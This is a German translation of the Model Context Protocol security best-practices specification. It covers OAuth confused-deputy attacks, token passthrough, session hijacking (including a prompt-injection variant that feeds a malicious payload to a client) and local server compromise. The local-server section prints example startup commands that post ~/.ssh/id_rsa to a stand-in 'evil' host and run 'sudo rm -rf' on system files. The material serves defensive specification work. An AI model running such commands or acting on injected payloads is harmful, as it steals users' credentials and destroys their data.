




<div id="enable-section-numbers" />

<div id="introduction">
  ## Einführung
</div>

<div id="purpose-and-scope">
  ### Zweck und Umfang
</div>

Dieses Dokument stellt Sicherheitsüberlegungen für das Model Context Protocol (MCP) bereit und ergänzt die Spezifikation zur [MCP-Autorisierung](de/../basic/authorization.mdx). Es benennt Sicherheitsrisiken, Angriffsvektoren und bewährte Praktiken, die spezifisch für MCP-Implementierungen sind.

Die Hauptzielgruppe dieses Dokuments sind Entwickler, die MCP-Autorisierungsflows implementieren, Betreiber von MCP-Servern sowie Sicherheitsexperten, die MCP-basierte Systeme beurteilen. Dieses Dokument sollte zusammen mit der Spezifikation zur MCP-Autorisierung und den [Sicherheitsbest Practices für OAuth 2.0](https://datatracker.ietf.org/doc/html/rfc9700) gelesen werden.

<div id="attacks-and-mitigations">
  ## Angriffe und Gegenmaßnahmen
</div>

Dieser Abschnitt beschreibt Angriffe auf MCP-Implementierungen im Detail sowie mögliche Gegenmaßnahmen.

<div id="confused-deputy-problem">
  ### Confused-Deputy-Problem
</div>

Angreifer können MCP-Server ausnutzen, die als Proxy für andere Ressourcen-Server fungieren, und so Schwachstellen des Typs &quot;[confused deputy](https://en.wikipedia.org/wiki/Confused_deputy_problem)&quot; erzeugen.

<div id="terminology">
  #### Terminologie
</div>

**MCP-Proxy-Server**
: Ein MCP-Server, der MCP-Clients mit Drittanbieter-APIs verbindet, MCP-Funktionen bereitstellt, dabei Vorgänge delegiert und gegenüber dem Drittanbieter-API-Server als einzelner OAuth-Client auftritt.

**Autorisierungsserver eines Drittanbieters**
: Autorisierungsserver, der die Drittanbieter-API schützt. Er unterstützt möglicherweise keine dynamische Client-Registrierung, wodurch der MCP-Proxy für alle Anfragen eine statische Client-ID verwenden muss.

**Drittanbieter-API**
: Der geschützte Ressourcenserver, der die eigentliche API-Funktionalität bereitstellt. Der Zugriff auf diese API erfordert Token, die vom Autorisierungsserver des Drittanbieters ausgestellt werden.

**Statische Client-ID**
: Ein fester OAuth-2.0-Clientbezeichner, den der MCP-Proxy-Server bei der Kommunikation mit dem Autorisierungsserver des Drittanbieters verwendet. Diese Client-ID bezieht sich auf den MCP-Server, der als Client gegenüber der Drittanbieter-API auftritt. Sie ist für alle Interaktionen vom MCP-Server mit der Drittanbieter-API gleich, unabhängig davon, welcher MCP-Client die Anfrage initiiert hat.

<div id="architecture-and-attack-flows">
  #### Architektur und Angriffsvektoren
</div>

<div id="normal-oauth-proxy-usage-preserves-user-consent">
  ##### Normale OAuth-Proxy-Nutzung (bewahrt die Zustimmung der Nutzer)
</div>



<div id="malicious-oauth-proxy-usage-skips-user-consent">
  ##### Böswillige Nutzung eines OAuth-Proxys (Überspringen der Benutzerzustimmung)
</div>



<div id="attack-description">
  #### Angriffsbeschreibung
</div>

Wenn ein MCP-Proxy-Server eine statische Client-ID verwendet, um sich bei einem Autorisierungsserver eines Drittanbieters zu authentifizieren, der keine dynamische Client-Registrierung unterstützt, wird folgender Angriff möglich:

1. Ein Nutzer authentifiziert sich regulär über den MCP-Proxy-Server, um auf die API des Drittanbieters zuzugreifen
2. Während dieses Ablaufs setzt der Autorisierungsserver des Drittanbieters ein Cookie im User-Agent, das die Zustimmung für die statische Client-ID bestätigt
3. Ein Angreifer sendet dem Nutzer später einen bösartigen Link mit einer präparierten Autorisierungsanfrage, die eine bösartige Redirect-URI zusammen mit einer neu dynamisch registrierten Client-ID enthält
4. Wenn der Nutzer auf den Link klickt, befindet sich das Zustimmungs-Cookie aus der vorherigen legitimen Anfrage noch im Browser
5. Der Autorisierungsserver des Drittanbieters erkennt das Cookie und überspringt die Zustimmungsabfrage
6. Der MCP-Autorisierungscode wird an den Server des Angreifers umgeleitet (angegeben im bösartigen `redirect_uri`-Parameter während der [dynamischen Client-Registrierung](/de/specification/draft/basic/authorization#dynamic-client-registration))
7. Der Angreifer tauscht den gestohlenen Autorisierungscode ohne die ausdrückliche Zustimmung des Nutzers gegen Zugriffstoken für den MCP-Server ein
8. Der Angreifer hat nun als kompromittierter Nutzer Zugriff auf die API des Drittanbieters

<div id="mitigation">
  #### Gegenmaßnahme
</div>

MCP-Proxy-Server, die statische Client-IDs verwenden, **MÜSSEN** für jeden dynamisch registrierten Client die Einwilligung der Nutzer einholen, bevor sie an Autorisierungsserver von Drittanbietern weiterleiten (die eventuell zusätzliche Einwilligungen verlangen).

<div id="token-passthrough">
  ### Token-Passthrough
</div>

„Token-Passthrough“ ist ein Anti-Pattern, bei dem ein MCP-Server Token von einem MCP-Client akzeptiert, ohne zu überprüfen, dass diese Token ordnungsgemäß *für den MCP-Server* ausgestellt wurden, und sie an die nachgelagerte API durchreicht.

<div id="risks">
  #### Risiken
</div>

Token-Passthrough ist in der [Autorisierungsspezifikation](/de/specification/draft/basic/authorization) ausdrücklich verboten, da es eine Reihe von Sicherheitsrisiken mit sich bringt, darunter:

* **Umgehung von Sicherheitskontrollen**
  * Der MCP-Server oder nachgelagerte APIs können wichtige Sicherheitskontrollen wie Rate-Limiting, Anforderungsvalidierung oder Verkehrsüberwachung implementieren, die von der Token-Audience oder anderen Anmeldeinformationsbeschränkungen abhängen. Wenn Clients Tokens direkt bei den nachgelagerten APIs verwenden können, ohne dass der MCP-Server sie ordnungsgemäß validiert oder sicherstellt, dass die Tokens für den richtigen Dienst ausgestellt sind, umgehen sie diese Kontrollen.
* **Probleme bei Verantwortlichkeit und Prüfpfad**
  * Der MCP-Server kann MCP-Clients nicht identifizieren oder unterscheiden, wenn Clients mit einem vom Upstream ausgestellten Zugriffstoken aufrufen, das für den MCP-Server möglicherweise undurchsichtig ist.
  * Die Protokolle des nachgelagerten Ressourcenservers könnten Anfragen zeigen, die scheinbar aus einer anderen Quelle mit einer anderen Identität stammen, statt vom MCP-Server, der die Tokens tatsächlich weiterleitet.
  * Beide Faktoren erschweren Vorfalluntersuchungen, Kontrollen und Audits.
  * Gibt der MCP-Server Tokens weiter, ohne deren Claims (z. B. Rollen, Berechtigungen oder Audience) oder andere Metadaten zu validieren, kann ein böswilliger Akteur im Besitz eines gestohlenen Tokens den Server als Proxy für Datenexfiltration missbrauchen.
* **Probleme mit Vertrauensgrenzen**
  * Der nachgelagerte Ressourcenserver gewährt bestimmten Entitäten Vertrauen. Dieses Vertrauen kann Annahmen über Herkunft oder Verhaltensmuster von Clients beinhalten. Das Durchbrechen dieser Vertrauensgrenze kann zu unerwarteten Problemen führen.
  * Wird das Token von mehreren Diensten ohne ordnungsgemäße Validierung akzeptiert, kann ein Angreifer, der einen Dienst kompromittiert, das Token verwenden, um auf andere verbundene Dienste zuzugreifen.
* **Risiko zukünftiger Kompatibilität**
  * Selbst wenn ein MCP-Server heute als „reiner Proxy“ startet, könnte er später Sicherheitskontrollen hinzufügen müssen. Eine von Anfang an saubere Trennung der Token-Audience erleichtert die Weiterentwicklung des Sicherheitsmodells.

<div id="mitigation">
  #### Gegenmaßnahmen
</div>

MCP-Server **DÜRFEN KEINE** Token akzeptieren, die nicht ausdrücklich für den MCP-Server ausgestellt wurden.

<div id="session-hijacking">
  ### Session Hijacking
</div>

Session Hijacking ist ein Angriffsvektor, bei dem ein Client vom Server eine Sitzungs-ID erhält und eine unbefugte Partei diese Sitzungs-ID abfangen oder anderweitig erlangen und benutzen kann, um den ursprünglichen Client zu imitieren und in dessen Namen unbefugte Aktionen auszuführen.

<div id="session-hijack-prompt-injection">
  #### Session-Hijack-Prompt-Injektion
</div>



<div id="session-hijack-impersonation">
  #### Sitzungsentführung durch Identitätsvortäuschung
</div>



<div id="attack-description">
  #### Angriffsbeschreibung
</div>

Wenn mehrere zustandsbehaftete HTTP-Server MCP-Anfragen verarbeiten, sind die folgenden Angriffsvektoren möglich:

**Sitzungsübernahme durch Prompt Injection**

1. Der Client verbindet sich mit **Server A** und erhält eine Sitzungs-ID.

2. Der Angreifer erlangt eine bestehende Sitzungs-ID und sendet ein bösartiges Ereignis mit dieser Sitzungs-ID an **Server B**.
   * Wenn ein Server [erneute Zustellung/wiederaufnehmbare Streams](/de/specification/draft/basic/transports#resumability-and-redelivery) unterstützt, kann das absichtliche Beenden der Anfrage, bevor die Antwort empfangen wurde, dazu führen, dass der ursprüngliche Client sie über die GET-Anfrage für Server-Sent Events fortsetzt.
   * Wenn ein bestimmter Server infolge eines Tool-Aufrufs wie `notifications/tools/list_changed` Server-Sent Events initiiert, wodurch sich die vom Server angebotenen Werkzeuge beeinflussen lassen, könnte ein Client letztlich über Werkzeuge verfügen, von denen er nicht wusste, dass sie aktiviert sind.

3. **Server B** stellt das Ereignis (der Sitzungs-ID zugeordnet) in eine gemeinsame Warteschlange.

4. **Server A** pollt die Warteschlange mithilfe der Sitzungs-ID nach Ereignissen und ruft die bösartige Nutzlast ab.

5. **Server A** sendet die bösartige Nutzlast als asynchrone oder wiederaufgenommene Antwort an den Client.

6. Der Client empfängt die bösartige Nutzlast und handelt danach, was zu einer möglichen Kompromittierung führt.

**Sitzungsübernahme durch Identitätsanmaßung**

1. Der MCP-Client authentifiziert sich beim MCP-Server und erstellt eine persistente Sitzungs-ID.
2. Der Angreifer erlangt die Sitzungs-ID.
3. Der Angreifer führt Aufrufe an den MCP-Server unter Verwendung der Sitzungs-ID aus.
4. Der MCP-Server prüft keine zusätzliche Autorisierung und behandelt den Angreifer als legitimen Benutzer, was unbefugten Zugriff oder Aktionen ermöglicht.

<div id="mitigation">
  #### Gegenmaßnahmen
</div>

Um Session-Hijacking- und Event-Injection-Angriffe zu verhindern, sollten die folgenden Maßnahmen umgesetzt werden:

MCP-Server, die Autorisierung implementieren, **MÜSSEN** alle eingehenden Anfragen prüfen.
MCP-Server **DÜRFEN** Sitzungen **NICHT** für die Authentifizierung verwenden.

MCP-Server **MÜSSEN** sichere, nicht deterministische Sitzungs-IDs verwenden.
Generierte Sitzungs-IDs (z. B. UUIDs) **SOLLTEN** sichere Zufallszahlengeneratoren nutzen. Vermeiden Sie vorhersehbare oder fortlaufende Sitzungskennungen, die von Angreifern erraten werden könnten. Das Rotieren oder Ablaufenlassen von Sitzungs-IDs kann das Risiko ebenfalls reduzieren.

MCP-Server **SOLLTEN** Sitzungs-IDs an benutzerspezifische Informationen binden.
Wenn sitzungsbezogene Daten gespeichert oder übertragen werden (z. B. in einer Warteschlange), kombinieren Sie die Sitzungs-ID mit Informationen, die für den autorisierten Benutzer eindeutig sind, etwa der internen Benutzer-ID. Verwenden Sie ein Schlüsselformat wie `<user_id>:<session_id>`. So ist selbst dann, wenn ein Angreifer eine Sitzungs-ID errät, keine Imitation eines anderen Benutzers möglich, da die Benutzer-ID aus dem Benutzertoken abgeleitet wird und nicht vom Client bereitgestellt wird.

MCP-Server können optional zusätzliche eindeutige Bezeichner verwenden.

<div id="local-mcp-server-compromise">
  ### Kompromittierung lokaler MCP-Server
</div>

Lokale MCP-Server sind MCP-Server, die auf dem lokalen Rechner eines Nutzers ausgeführt werden – entweder indem der Nutzer einen Server herunterlädt und startet, selbst einen Server entwickelt oder ihn über die Konfigurationsabläufe eines Clients installiert. Diese Server können direkten Zugriff auf das System des Nutzers haben und möglicherweise für andere Prozesse auf dem Rechner des Nutzers zugänglich sein, was sie zu attraktiven Zielen für Angriffe macht.

<div id="attack-description">
  #### Angriffsbeschreibung
</div>

Lokale MCP-Server sind Binärdateien, die auf derselben Maschine wie der MCP-Client heruntergeladen und ausgeführt werden. Ohne geeignete Sandboxing-Mechanismen und Zustimmungsanforderungen werden die folgenden Angriffe möglich:

1. Ein Angreifer fügt einen bösartigen „Startup“-Befehl in eine Client-Konfiguration ein
2. Ein Angreifer verteilt eine bösartige Nutzlast direkt im Server
3. Ein Angreifer greift über DNS-Rebinding auf einen unsicheren lokalen Server zu, der auf localhost läuft

Beispielhafte bösartige Startup-Befehle, die eingebettet werden könnten:

```bash
# Data exfiltration
npx malicious-package && curl -X POST -d @~/.ssh/id_rsa https://example.com/evil-location

# Privilege escalation
sudo rm -rf /important/system/files && echo "MCP server installed!"

<div id="risks">
  #### Risiken
</div>

Lokale MCP-Server mit unzureichenden Einschränkungen oder aus nicht vertrauenswürdigen Quellen bringen mehrere kritische Sicherheitsrisiken mit sich:

- **Beliebige Codeausführung**. Angreifer können beliebige Befehle mit den Rechten des MCP-Clients ausführen.
- **Keine Transparenz**. Nutzende haben keinen Einblick, welche Befehle ausgeführt werden.
- **Befehlsverschleierung**. Böswillige Akteure können komplexe oder verschachtelte Befehle verwenden, um legitim zu wirken.
- **Datenexfiltration**. Angreifer können über kompromittiertes JavaScript auf legitime lokale MCP-Server zugreifen.
- **Datenverlust**. Angreifer oder Fehler in legitimen Servern können zu irreversiblen Datenverlusten auf der Hostmaschine führen.

<div id="mitigation">
  #### Gegenmaßnahmen
</div>

Wenn ein MCP-Client die Ein-Klick-Konfiguration lokaler MCP-Server unterstützt, MUSS er vor der Ausführung von Befehlen geeignete Zustimmungsmechanismen implementieren.

**Zustimmung vor der Konfiguration**

Vor dem Verbinden eines neuen lokalen MCP-Servers per Ein-Klick-Konfiguration ist ein klarer Zustimmungsdialog anzuzeigen. Der MCP-Client MUSS:

- Den exakten Befehl anzeigen, der ausgeführt wird, ohne Kürzung (einschließlich Argumenten und Parametern)
- Deutlich kennzeichnen, dass es sich um einen potenziell gefährlichen Vorgang handelt, der Code auf dem System der nutzenden Person ausführt
- Explizite Zustimmung der nutzenden Person einholen, bevor fortgefahren wird
- Das Abbrechen der Konfiguration ermöglichen

Der MCP-Client SOLLTE zusätzliche Prüfungen und Schutzmaßnahmen implementieren, um potenzielle Angriffsvektoren zur Codeausführung zu mindern:

- Potenziell gefährliche Befehlsmuster hervorheben (z. B. Befehle mit `sudo`, `rm -rf`, Netzwerkoperationen, Dateisystemzugriffe außerhalb erwarteter Verzeichnisse)
- Warnungen für Befehle anzeigen, die auf sensible Bereiche zugreifen (Home-Verzeichnis, SSH-Schlüssel, Systemverzeichnisse)
- Darauf hinweisen, dass MCP-Server mit denselben Rechten wie der Client laufen
- MCP-Server-Befehle in einer isolierten, sandboxed Umgebung mit minimalen Standardrechten ausführen
- MCP-Server mit eingeschränktem Zugriff auf Dateisystem, Netzwerk und andere Systemressourcen starten
- Mechanismen bereitstellen, damit Nutzende bei Bedarf ausdrücklich zusätzliche Berechtigungen erteilen können (z. B. Zugriff auf bestimmte Verzeichnisse, Netzwerkzugriff)
- Plattformgeeignete Sandboxing-Technologien verwenden (Container, chroot, Anwendungssandboxes usw.)

MCP-Server, die lokal ausgeführt werden sollen, SOLLTEN Maßnahmen implementieren, um unbefugte Nutzung durch bösartige Prozesse zu verhindern:
- Den `stdio`-Transport verwenden, um den Zugriff ausschließlich auf den MCP-Client zu beschränken
- Den Zugriff einschränken, wenn ein HTTP-Transport verwendet wird, z. B.:
  - Ein Autorisierungstoken verlangen
  - Unix-Domain-Sockets oder andere Inter-Process-Communication-(IPC)-Mechanismen mit eingeschränktem Zugriff verwenden
```